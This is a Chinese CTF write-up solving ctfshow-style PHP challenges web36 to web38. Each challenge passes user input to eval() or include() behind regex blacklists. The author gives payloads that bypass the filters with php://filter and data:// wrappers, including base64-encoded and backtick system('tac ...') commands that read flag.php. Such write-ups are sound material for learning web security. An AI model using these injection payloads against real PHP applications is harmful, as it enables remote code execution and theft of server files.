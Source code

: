 ## web36（include逃逸）
```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
过滤了数字，换个传参
payload：/?c=include$_GET[a]?%3E&a=php://filter/convert.base64-encode/resource=flag.php
## web37（data，input伪协议）
```php
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```
使用php的data伪协议去读
payload：/?c=data:text/plain,<?php system('tac fla?.php')?>
或/?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==
或（注意post传参为x-www-form-urlencoded raw，意味传递任意格式文本，如果这里不是raw的话post会将其转换为键值对导致代码无法执行）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637843452688-976476c6-c4d7-4b91-b205-ae96395ce232.png#clientId=ub553509b-7999-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=124&id=uc8a964f2&margin=%5Bobject%20Object%5D&name=image.png&originHeight=247&originWidth=1153&originalType=binary&ratio=1&rotation=0&showTitle=false&size=28401&status=done&style=none&taskId=ubea90b37-50e0-4e15-9d5c-026b58e4f17&title=&width=576.5)
## web38（data伪协议）
```php
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```
过滤了php，那么带php的伪协议都不能用了，这里使用data
payload：/?c=data://text/plain,<?=`tac *`;
## web39（data伪协议）
```php
```